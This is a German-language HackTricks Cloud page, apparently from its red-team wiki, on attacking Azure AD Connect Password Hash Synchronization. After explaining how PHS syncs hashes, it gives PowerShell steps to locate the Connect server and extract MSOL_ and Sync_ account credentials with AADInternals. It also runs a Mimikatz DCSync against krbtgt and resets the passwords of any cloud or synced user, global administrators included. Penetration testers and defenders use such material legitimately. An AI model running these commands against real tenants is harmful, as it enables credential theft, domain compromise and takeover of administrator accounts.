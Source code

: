 # Az - PHS - Passwort-Hash-Synchronisierung

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>

## Grundlegende Informationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) Die **Passwort-Hash-Synchronisierung** ist eine der Anmeldeverfahren, die zur Realisierung einer hybriden Identität verwendet werden. **Azure AD Connect** synchronisiert einen Hash, eines Hashes, des Passworts eines Benutzers von einer lokalen Active Directory-Instanz zu einer cloudbasierten Azure AD-Instanz.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Es ist die **häufigste Methode**, die von Unternehmen verwendet wird, um ein lokales AD mit Azure AD zu synchronisieren.

Alle **Benutzer** und ein **Hash der Passworthashes** werden vom lokalen AD mit Azure AD synchronisiert. **Klartextpasswörter** oder die **ursprünglichen Hashes** werden jedoch nicht an Azure AD gesendet.\
Darüber hinaus werden **eingebaute** Sicherheitsgruppen (wie Domänenadministratoren...) **nicht mit Azure AD synchronisiert**.

Die **Hash-Synchronisierung** erfolgt alle **2 Minuten**. Standardmäßig werden jedoch **Passwortablauf** und **Kontoablauf** **nicht in Azure AD synchronisiert**. Daher kann ein Benutzer, dessen **lokales Passwort abgelaufen ist** (nicht geändert), weiterhin auf Azure-Ressourcen zugreifen, indem er das alte Passwort verwendet.

Wenn ein Benutzer aus dem lokalen AD auf eine Azure-Ressource zugreifen möchte, erfolgt die **Authentifizierung in Azure AD**.

**PHS** ist für Funktionen wie **Identity Protection** und AAD-Domänendienste erforderlich.

## Pivoting

Wenn PHS konfiguriert ist, werden automatisch einige **privilegierte Konten erstellt**:

* Das Konto **`MSOL_<Installations-ID>`** wird automatisch im lokalen AD erstellt. Diesem Konto wird die Rolle **Directory Synchronization Accounts** zugewiesen (siehe [Dokumentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), was bedeutet, dass es **Replikationsberechtigungen (DCSync) im lokalen AD** hat.
* Ein Konto **`Sync_<Name des lokalen ADConnect-Servers>_Installations-ID`** wird in Azure AD erstellt. Dieses Konto kann das Passwort eines beliebigen Benutzers (synchronisiert oder nur in der Cloud) in Azure AD zurücksetzen.

Die Passwörter der beiden zuvor genannten privilegierten Konten werden **in einem SQL-Server** auf dem Server, auf dem **Azure AD Connect installiert ist**, gespeichert. Admins können die Passwörter dieser privilegierten Benutzer im Klartext extrahieren.\
Die Datenbank befindet sich in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es ist möglich, die Konfiguration aus einer der Tabellen zu extrahieren, wobei eine verschlüsselt ist:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **verschlüsselte Konfiguration** ist mit **DPAPI** verschlüsselt und enthält die **Passwörter des Benutzers `MSOL_*`** im lokalen AD und das Passwort von **Sync\_\*** in AzureAD. Daher ist es möglich, durch Kompromittierung dieser Berechtigungen auf das AD und AzureAD zu eskalieren.

Eine [vollständige Übersicht darüber, wie diese Anmeldeinformationen gespeichert und entschlüsselt werden, finden Sie in diesem Vortrag](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Ermitteln des **Azure AD Connect-Servers**

Wenn der **Server, auf dem Azure AD Connect installiert ist**, domänenbeigetreten ist (wie in den Dokumenten empfohlen), ist es möglich, ihn mit zu finden:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Missbrauch von MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Sie können auch [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) verwenden, um diese Anmeldeinformationen zu erhalten.
{% endhint %}

### Missbrauch von Sync\_\*

Durch Kompromittierung des **`Sync_*`**-Kontos ist es möglich, das Passwort eines beliebigen Benutzers zurückzusetzen (einschließlich globaler Administratoren)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Es ist auch möglich, die Passwörter nur von Cloud-Benutzern zu ändern (auch wenn das unerwartet ist)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Es ist auch möglich, das Passwort dieses Benutzers abzurufen.

{% hint style="danger" %}
Eine weitere Option wäre, **privilegierte Berechtigungen einem Dienstprinzipal zuzuweisen**, was der **Sync**-Benutzer **berechtigt** ist zu tun, und dann auf diesen Dienstprinzipal zuzugreifen, um eine Privilege-Eskalation durchzuführen.
{% endhint %}

### Nahtlose SSO

Es ist möglich, Seamless SSO mit PHS zu verwenden, was anfällig für andere Missbräuche ist. Überprüfen Sie dies unter:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>
